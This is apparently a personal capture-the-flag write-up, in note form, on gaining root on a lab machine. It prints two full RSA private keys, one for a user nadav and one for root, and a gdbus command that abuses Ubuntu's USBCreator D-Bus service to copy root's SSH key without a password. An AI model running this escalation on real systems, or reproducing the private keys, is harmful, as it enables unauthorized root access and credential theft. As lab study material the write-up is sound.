 # Getting Root

authorized_keys and id_rsa.pub of paul is the same for nadav user
![[Pasted image 20211214204632.png]]


copy private key id_rsa  to our machine
sshkey - nadav
```bash
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAs14rHBRld5fU9oL1zpIfcPgaT54Rb+QDj2oAK4M1g5PblKu/
+L+JLs7KP5QL0CINoGGhB5Q3aanfYAmAO7YO+jeUS266BqgOj6PdUOvT0GnS7M4i
Z2Lpm4QpYDyxrgY9OmCg5LSN26Px948WE12N5HyFCqN1hZ6FWYk5ryiw5AJTv/kt
rWEGu8DJXkkdNaT+FRMcT1uMQ32y556fczlFQaXQjB5fJUXYKIDkLhGnUTUcAnSJ
JjBGOXn1d2LGHMAcHOof2QeLvMT8h98hZQTUeyQA5J+2RZ63b04dzmPpCxK+hbok
sjhFoXD8m5DOYcXS/YHvW1q3knzQtddtqquPXQIDAQABAoIBAGwqMHMJdbrt67YQ
eWztv1ofs7YpizhfVypH8PxMbpv/MR5xiB3YW0DH4Tz/6TPFJVR/K11nqxbkItlG
QXdArb2EgMAQcMwM0mManR7sZ9o5xsGY+TRBeMCYrV7kmv1ns8qddMkWfKlkL0lr
lxNsimGsGYq10ewXETFSSF/xeOK15hp5rzwZwrmI9No4FFrX6P0r7rdOaxswSFAh
zWd1GhYk+Z3qYUhCE0AxHxpM0DlNVFrIwc0DnM5jogO6JDxHkzXaDUj/A0jnjMMz
R0AyP/AEw7HmvcrSoFRx6k/NtzaePzIa2CuGDkz/G6OEhNVd2S8/enlxf51MIO/k
7u1gB70CgYEA1zLGA35J1HW7IcgOK7m2HGMdueM4BX8z8GrPIk6MLZ6w9X6yoBio
GS3B3ngOKyHVGFeQrpwT1a/cxdEi8yetXj9FJd7yg2kIeuDPp+gmHZhVHGcwE6C4
IuVrqUgz4FzyH1ZFg37embvutkIBv3FVyF7RRqFX/6y6X1Vbtk7kXsMCgYEA1WBE
LuhRFMDaEIdfA16CotRuwwpQS/WeZ8Q5loOj9+hm7wYCtGpbdS9urDHaMZUHysSR
AHRFxITr4Sbi51BHUsnwHzJZ0o6tRFMXacN93g3Y2bT9yZ2zj9kwGM25ySizEWH0
VvPKeRYMlGnXqBvJoRE43wdQaPGYgW2bj6Ylt18CgYBRzSsYCNlnuZj4rmM0m9Nt
1v9lucmBzWig6vjxwYnnjXsW1qJv2O+NIqefOWOpYaLvLdoBhbLEd6UkTOtMIrj0
KnjOfIETEsn2a56D5OsYNN+lfFP6Ig3ctfjG0Htnve0LnG+wHHnhVl7XSSAA9cP1
9pT2lD4vIil2M6w5EKQeoQKBgQCMMs16GLE1tqVRWPEH8LBbNsN0KbGqxz8GpTrF
d8dj23LOuJ9MVdmz/K92OudHzsko5ND1gHBa+I9YB8ns/KVwczjv9pBoNdEI5KOs
nYN1RJnoKfDa6WCTMrxUf9ADqVdHI5p9C4BM4Tzwwz6suV1ZFEzO1ipyWdO/rvoY
f62mdwKBgQCCvj96lWy41Uofc8y65CJi126M+9OElbhskRiWlB3OIDb51mbSYgyM
Uxu7T8HY2CcWiKGe+TEX6mw9VFxaOyiBm8ReSC7Sk21GASy8KgqtfZy7pZGvazDs
OR3ygpKs09yu7svQi8j2qwc7FL6DER74yws+f538hI7SHBv9fYPVyw==
-----END RSA PRIVATE KEY-----

```

![[Pasted image 20211214204943.png]]

![[Pasted image 20211214205105.png]]

![[Pasted image 20211214205136.png]]

DBUS PRIVESC ?
https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/

payload DBUS to copy a file without password for sudo
Copying ssh key, because shadow has hashes sha-512 (take a lot of time to crack)
```bash
gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /root/.ssh/id_rsa /dev/shm/rootkey true
```

![[Pasted image 20211214210414.png]]

sshkey - root
```bash
-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAth1mFSVw6Erdhv7qc+Z5KWQMPtwTsT9630uzpq5fBx/KKzqZ
B7G3ej77MN35+ULlwMcpoumayWK4yZ/AiJBm6FEVBGSwjSMpOGcNXTL1TClGWbdE
+WNBT+30n0XJzi/JPhpoWhXM4OqYLCysX+/b0psF0jYLWy0MjqCjCl/muQtD6f2e
jc2JY1KMMIppoq5DwB/jJxq1+eooLMWVAo9MDNDmxDiw+uWRUe8nj9qFK2LRKfG6
U6wnyQ10ANXIdRIY0bzzhQYTMyH7o5/sjddrRGMDZFmOq6wHYN5sUU+sZDYD18Yg
ezdTw/BBiDMEPzZuCUlW57U+eX3uY+/Iffl+AwIDAQABAoIBACFJkF4vIMsk3AcP
0zTqHJ1nLyHSQjs0ujXUdXrzBmWb9u0d4djZMAtFNc7B1C4ufyZUgRTJFETZKaOY
8q1Dj7vJDklmSisSETfBBl1RsiqApN5DNHVNIiQE/6CZNgDdFTCnzQkiUPePic8R
P1St2AVP1qmMvVimDFSJoiOEUfzidepXEEUQrByNmOJDtewMSm4aGz60ced2XCBr
GTt/wyo0y5ygRJkUcC+/o4/r2DQdrjCbeuyzAzzhFKQQx6HN5svzpi0jOWC0cB0W
GmAp5Q7fIFhuGyrxShs/BEuQP7q7Uti68iwEh2EZSlaMcBFEJvirWtIO7U3yIHYI
HnNlLvECgYEA7tpebu84sTuCarHwASAhstiCR5LMquX/tZtHi52qKKmYzG6wCCMg
S/go8DO8AX5mldkegD7KBmTeMNPKp8zuE8s+vpErCBH+4hOq6U1TwZvDQ2XY9HBz
aHz7vG5L8E7tYpJ64Tt8e0DcnQQtW8EqFIydipO0eLdxkIGykjWuYGsCgYEAwzBM
UZMmOcWvUULWf65VSoXE270AWP9Z/XuamG/hNpREDZEYvHmhucZBf1MSGGU/B7MC
YXbIs1sS6ehDcib8aCVdOqRIqhCqCd1xVnbE0T4F2s1yZkct09Bki6EuXPDo2vhy
/6v6oP+yT5z854Vfq0FWxmDUssMbjXkVLKIZ3skCgYAYvxsllzdidW3vq/vXwgJ7
yx7EV5tI4Yd6w1nIR0+H4vpnw9gNH8aK2G01ZcbGyNfMErCsTNUVkIHMwUSv2fWY
q2gWymeQ8Hxd4/fDMDXLS14Rr42o1bW/T6OtRCgt/59spQyCJW2iP3gb9IDWjs7T
TjZMUz1RfIARnr5nk5Q7fQKBgGESVxJGvT8EGoGuXODZAZ/zUQj7QP4B2G5hF2xy
T64GJKYeoA+z6gNrHs3EsX4idCtPEoMIQR45z/k2Qry1uNfOpUPxyhWR/g6z65bV
sGJjlyPPAvLsuVTbEfYDLfyY7yVfZEnU7Os+3x4K9BfsU7zm3NIB/CX/NGeybR5q
a7VJAoGANui4oMa/9x8FSoe6EPsqbUcbJCmSGPqS8i/WZpaSzn6nW+636uCgB+EP
WOtSvOSRRbx69j+w0s097249fX6eYyIJy+L1LevF092ExQdoc19JTTKJZiWwlk3j
MkLnfTuKj2nvqQQ2fq+tIYEhY6dcSRLDQkYMCg817zynfP0I69c=
-----END RSA PRIVATE KEY-----

```

![[Pasted image 20211214210727.png]]